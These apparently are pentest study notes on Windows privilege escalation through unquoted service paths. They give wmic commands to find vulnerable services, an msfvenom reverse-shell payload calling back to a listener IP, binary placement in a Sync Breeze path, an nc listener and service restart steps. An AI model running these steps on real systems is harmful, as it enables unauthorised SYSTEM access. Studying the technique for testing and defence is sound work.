 ```yaml
---
title: unquoted service path
category: win privesc
order: 1
---
```

---
[WPE-08 - Unquoted Service Path](https://pentestlab.blog/2017/03/09/unquoted-service-path/)

We can use this attack when we have write
permissions to a service’s main directory and subdirectories but cannot replace files within them.

if we have this path unquoted:
```
C:\Program Files\My Program\My Service\service.exe
```
windows will try to run  in order:
```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
&nbsp;
## | 1 find vulnerable services
```
wmic service get name,displayname,pathname,startmode
```
or
```
wmic service get name,displayname,pathname,startmode |findstr /i “auto” |findstr /i /v “c:\windows\\” |findstr /i /v “””
```
ex:
```
 C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe  
 ```
 &nbsp;
## | 2 create reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.220 LPORT=4445 -f exe -o shell2.exe
```
&nbsp;
## | 3 Rename and move binary
```
C:\Program Files (x86)\Sync.exe
```
&nbsp;
## | 4 open listener
```
nc -nlvp 4445
```
&nbsp;
## | 5 restart service
```
net stop "Sync Breeze Enterprise"
net start "Sync Breeze Enterprise"
```
